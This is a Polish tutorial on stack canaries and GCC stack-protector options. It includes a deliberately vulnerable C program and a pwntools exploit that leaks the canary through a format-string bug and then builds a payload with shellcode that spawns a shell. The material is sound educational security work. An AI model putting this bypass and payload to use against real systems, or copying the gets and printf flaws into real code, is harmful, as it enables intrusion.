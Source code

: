 # Canary
## Opis
`Stack Canary` jest metodą zabezpieczania stosu. Polega ona na umieszczeniu na stosie przed adresem powrotu losowo generowanej wartości. Przed wykonaniem instrukcji `ret` sprawdzana jest wartość kanarka. Jeżeli została zmodyfikowana działanie programu jest zatrzymywane z błędem `stack smashing detected`.

Wartość kanarka z reguły kończy się bajtami `\x00` - znakiem końca stringa. Ma to na celu utrudnienie wycieku.

Kanarek może być generowany na różne sposoby. Wyróżnia się 3:

 - `Terminator canaries` - kanarki składające się ze znaków typu `\x00`, `CR`, `LF`, `\xFF`. Ma on na celu utrudnienie nadpisania atakującemu poprzez wykorzystanie `terminator chars` - znaków zakańczających działanie funkcji które mogły by być użyte w exploicie.
 - `Random canaries` - wartość kanarka jest całkowicie losowa (generowana za pomocą `entropy-gathering daemon`). Aby atakujący nie mógł poznać wartośći kanarka zmienna globalna w której przechowywany jest porównawczy kanarek jest oddzielona kilkoma niemapowanymi stronami od reszty pamięci.
 - `Random XOR canaries` - Jest to `Random Canary` z tym że jego wartości zostały wymieszane operacją `XOR` z wartościami kontrolnymi zawartymi w programie. Jest on trudniejszy do złamania niż zwykły `Random Canary` ponieważ atakujący musi poznać jeszcze wartości kontrolne oraz algorytm mieszania.

Sprawdzenie wartości kanarka wygląda następująco:

![](https://i.imgur.com/1Nc7LFg.png)

Kanarek ładowany jest do rejestru eax, następnie odejmowana jest wartość porównawcza `gs:0x14`. Jeśli wartości były równe w rejestrze `eax` zostanie wartość 0 i skok `je` ominie `call` zakańczający program. Potem nastąpi zwykły powrót z funkcji.

## Clang i GCC

W obydwu kompilatorach defaultowa opcja kanarka jest zależna od wersji gcc - na niektórych dystrybucjach linuxa np. arch, OpenBSD kompilatory domyślnie używają kanarka, a na niektórych nie np. kali. Podobnie zachowuje się kompilator intela - [link](https://software.intel.com/content/www/us/en/develop/documentation/cpp-compiler-developer-guide-and-reference/top/compiler-reference/compiler-options/compiler-option-details/data-options/fstack-protector.html).

W gcc możliwe opcje kanarka to:

 - `fstack-protector` - kompilator używa kanarka dla funkcji używającyh `alloca()` lub z bufforami > 8
 - `-fstack-protector-all` - kompilator używa kanarka dla wszystkich funkcji
 - `-fstack-protector-strong` - `fstack-protector` + funkcje z lokacnymi tablicami oraz odniesieniami do ramki stosu (liczą się tylko zmienne faktycznie trafiające na stos, kompilator nie bierze pod uwagę tych wyoptymalizowanych lub przechowywanych w rejestrach)
 - `-fstack-protector-explicit` - kompilator używa tylko kanarka dla funkcji z atrybutem `stack_protect`

[Dokumentacja gcc](https://gcc.gnu.org/onlinedocs/gcc-11.1.0/gcc/Instrumentation-Options.html#Instrumentation-Options) nie specyfikuje domyślnego zachowania, ale z przeprowadzonego przeze testu wynika że na kali kanarek jest domyślnie wyłączony.

### Test
Kompilowana aplikacja:

```{c}
#include <stdio.h>
#include <stdlib.h>

void func() {
  char input[512];
  char *buff=alloca(10);

  printf("Please enter your name: \n");
  fgets(input,512,stdin);
  fgets(buff,10,stdin);
  printf("Hi %s\n", input);
  printf("%s\n", buff);
}

int main() {
  func();
  return 0;
}
```

Sprawdzenie za pomocą narzędzia checksec:

![](https://i.imgur.com/ukniQRh.png)

Moja wersja gcc: `gcc (Debian 10.2.1-6) 10.2.1 20210110`

## Exploit 1
Pierwszy exploit został opisany w `/execution_disable/README.md`

### Exploitacja

W przypadku kompilacji bez kanarka exploit działa:

![](https://i.imgur.com/ft0Hdvu.png)

W przypadku kompilacji z kanarkiem otrzymujemy błąd `*** stack smashing detected ***`: 

![](https://i.imgur.com/DNWM77u.png)


## Exploit 2
Aby ominąć kanarka trzeba najpierw wyleakować jego wartość, aby potem móc ją spowrotem umieścić na stosie. Potrzebny do tego celu jest drugi buffor którym można to osiągnąć.

### Podatna aplikacja

```c
#include <stdio.h>
#include <stdlib.h>

void func() {
  char input[16];
  char leak[32];

  // canary leak
  gets(leak);
  printf(leak);
  printf("\n");

  printf("Please enter your name: \n");
  gets(input);

  printf("Hi %s\n", input);
}

int main() {
  func();
  return 0;
}
```

### Krok 1 - leak

Krokiem 1 jest sprawdzenie lokalizacji kanarka na stosie.

Sprawdzenie kanarka:

![](https://i.imgur.com/gUssRyd.png)

Widzimy że kanarek znajduje się pod adresem `ebp -0x8`

Stos:

![](https://i.imgur.com/ZxWOceW.png)

Na stosie widzimy adres kanarka oraz adres który pomoże ustalić nam adres pod którym wstawimy nasz shellcode.

Dalej wykorzystując string `%pozycja_na_stosie$x` możemy spróbować odgadnąć pozycje kanarka:

![](https://i.imgur.com/8O3lIfA.png)

![](https://i.imgur.com/V1tRkzy.png)

Po naszym strzale wiemy że kanarek znajduje się 4 adresy dalej - na pozycji 19. Adres z pozycji 17 jest stały więc również będzie celem leaku.

```python
payload1 = "-%17$x-%19$x"
p.sendline(payload1)
resp = p.recvline().decode().split("-")
b_addr = int(resp[1], 16)
canary = int(resp[2], 16)
```

Powyższy skrypt pobierze automatycznie wartości kanarka oraz stałego adresu.

### Krok 2 - odczytanie wartości kanarka i budowa payload'u


```python
payload = b"a"*48
payload += p32(canary)
payload += b"a"*12
payload += p32(b_addr-0xc8+20)
payload += asm(shellcraft.sh())
```

W payloadzie sklejamy `offset` równy długości obydwu bufforów, `kanarka`, `offset_ebp` długości 12 znaków, `adres shellcode'u` i `shellcode`.

Wykonanie exploita:

![](https://i.imgur.com/Q2svgas.png)

## Wnioski 

Kanarek jest dobrą metodą ochrony przed BOF. Powinien być domyślnie włączony na funkcjach z bufforem.
